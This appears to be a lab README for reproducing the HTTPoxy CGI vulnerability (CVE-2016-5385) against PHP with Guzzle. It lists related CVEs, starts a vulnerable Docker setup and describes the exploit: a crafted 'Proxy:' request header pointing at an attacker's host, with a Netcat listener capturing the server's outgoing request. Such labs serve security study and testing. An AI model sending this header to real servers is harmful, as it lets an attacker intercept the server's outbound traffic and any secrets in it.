


# HTTPoxy CGI application vulnerability (CVE-2016-5385)

[中文版本(Chinese version)](README.zh-cn.md)

httpoxy is a set of vulnerabilities that affect application code running in CGI, or CGI-like environments. It comes down to a simple namespace conflict:

- RFC 3875 (CGI) puts the HTTP Proxy header from a request into the environment variables as `HTTP_PROXY`
- `HTTP_PROXY` is a popular environment variable used to configure an outgoing proxy

This leads to a remotely exploitable vulnerability. See <https://httpoxy.org> for further principles description.

CVE-2016-5385 is one of CVEs that assign for HTTPoxy, here are the full CVEs list:

- CVE-2016-5385: PHP
- CVE-2016-5386: Go
- CVE-2016-5387: Apache HTTP Server
- CVE-2016-5388: Apache Tomcat
- CVE-2016-6286: spiffy-cgi-handlers for CHICKEN
- CVE-2016-6287: CHICKEN’s http-client
- CVE-2016-1000104: mod_fcgi
- CVE-2016-1000105: Nginx cgi script
- CVE-2016-1000107: Erlang inets
- CVE-2016-1000108: YAWS
- CVE-2016-1000109: HHVM FastCGI
- CVE-2016-1000110: Python CGIHandler
- CVE-2016-1000111: Python Twisted
- CVE-2016-1000212: lighttpd

## Vulnerable environment

Execute following command to start a Web application depending on PHP 5.6.23 and GuzzleHttp 6.2.0.

```
docker-compose up -d
```

This [Web page](www/index.php) get its origin IP address at `http://httpbin.org/get`:



At this moment, hostname IP is equal to original IP, no HTTP proxy.

## Exploit

Send a request with a crafted HTTP header that contains a available HTTP proxy address: `Proxy: http://*.*.122.65:8888/`:


It is obvious that the original address in the response has become the IP address of the proxy server.

Start a Netcat server at the `*.*.122.65` instead of HTTP proxy, we can capture the original request:


